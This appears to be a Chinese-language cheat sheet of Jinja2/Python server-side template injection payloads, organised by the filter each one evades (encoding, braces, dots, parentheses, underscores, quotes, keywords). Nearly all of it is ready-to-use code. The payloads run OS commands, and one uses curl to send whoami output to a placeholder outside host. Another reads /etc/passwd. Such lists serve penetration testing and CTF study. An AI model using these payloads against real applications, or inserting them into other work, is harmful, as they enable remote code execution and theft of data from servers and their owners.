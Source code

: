 ### 编码绕过
```python
().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__['ZXZhbA=='.decode('base64')]("X19pbXBvcnRfXygnb3MnKS5wb3BlbignbHMnKS5yZWFkKCk=".decode('base64'))(
等价于
().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__['eval']("__import__('os').popen('ls').read()")
```

### 绕过{{或}}
- 使用 `{%` 进行绕过
```python
{% if ''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.linecache.os.popen('curl http://xx.xxx.xx.xx:8080/?i=`whoami`').read()=='p' %}1{% endif %}
```

### 绕过.
- 可以使用 `attr()` 或 `[]` 绕过

```python
{{()|attr('__class__')|attr('__base__')|attr('__subclasses__')()|attr('__getitem__')(177)|attr('__init__')|attr('__globals__')|attr('__getitem__')('__builtins__')|attr('__getitem__')('eval')('__import__("os").popen("dir").read()')}}

{{ config['__class__']['__init__']['__globals__']['os']['popen']('dir')['read']() }}
```

### 过滤圆括号
- 对函数执行方式进行重载，比如将 `request.__class__.__getitem__=__builtins__.exec;`，那么执行 `request[payload]` 时就相当于 `exec(payload)` 了，使用 lambda 表达式进行绕过

### 绕过_和引号
- 可以用 `|attr` 绕过
```python
{{()|attr(request.values.a)}}&a=class
```
- 使用 `request` 对象绕过，假设过滤了 `__class__` 可以使用下面的形式进行替代
```python
{{''[request.args.t1]}}&t1=__class__
#若request.args改为request.values则利用post的方式进行传参

{{''[request['args']['t1']]}}&t1=__class__
#若使用POST，args换成form即可
```

### 关键词过滤
- base64编码绕过

```python
{{[].__getattribute__('X19jbGFzc19f'.decode('base64')).__base__.__subclasses__()[40]("/etc/passwd").read()}}
```

